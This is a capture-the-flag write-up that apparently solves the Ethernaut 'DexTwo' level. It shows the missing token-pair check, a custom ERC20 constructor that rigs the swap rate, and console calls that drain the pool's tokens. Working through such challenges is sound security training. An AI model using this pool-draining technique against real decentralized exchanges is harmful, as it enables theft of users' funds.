 > You need to drain all balances of token1 and token2 from the DexTwo contract to succeed in this level.

## 

The swap amount uses the same maths, and most of the code is the same as the previous challenge.

However, there is a subtle change:

```solidity
require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
```

This check has been removed.

It means we swap from our own tokens.
This gives us control of the exchange rate:

```solidity
constructor(address dex, string memory name, string memory symbol, uint supply) ERC20(name, symbol) {
    _dex = dex;
    _mint(msg.sender, supply); // amount to swap
    _mint(dex, supply); // the pool has the same amount for the rate calculation
}
```

Since the player has the same amount as the "from" pool, he will swap for the full amount in the "to" pool:

```js
(await contract.balanceOf(await contract.token1(), player)).toNumber() // 10
await contract.swap('0x46375D8D95023f9562ED374997F2305910db7944', await contract.token1(), 1)
(await contract.balanceOf(await contract.token1(), player)).toNumber() // 110
```

And re-iterate on the second token to thoroughly empty the pools.
